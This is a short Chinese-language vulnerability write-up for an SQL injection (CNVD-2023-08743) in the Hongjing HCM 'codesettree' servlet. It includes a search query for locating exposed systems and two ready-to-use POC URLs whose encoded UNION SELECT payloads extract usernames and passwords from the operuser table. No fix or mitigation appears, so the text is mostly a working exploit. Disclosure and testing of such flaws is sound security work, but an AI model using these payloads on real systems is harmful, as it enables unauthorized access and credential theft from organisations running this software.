

# 宏景 HCM codesettree SQL注入漏洞 CNVD-2023-08743

## 漏洞描述

宏景 HCM codesettree 接口存在SQL注入漏洞，攻击者通过漏洞可以获取到登陆系统的账号密码和数据库信息

## 漏洞影响

<a-checkbox checked>宏景 HCM</a-checkbox></br>

## 网络测绘

app="HJSOFT-HCM"</a-checkbox></br>

## 漏洞复现

登陆页面


验证POC

```php
/servlet/codesettree?flag=c&status=1&codesetid=1&parentid=-1&categories=~31~27~20union~20all~20select~20~27~31~27~2cusername~20from~20operuser~20~2d~2d
/servlet/codesettree?flag=c&status=1&codesetid=1&parentid=-1&categories=~31~27~20union~20all~20select~20~27~31~27~2cpassword~20from~20operuser~20~2d~2d
```

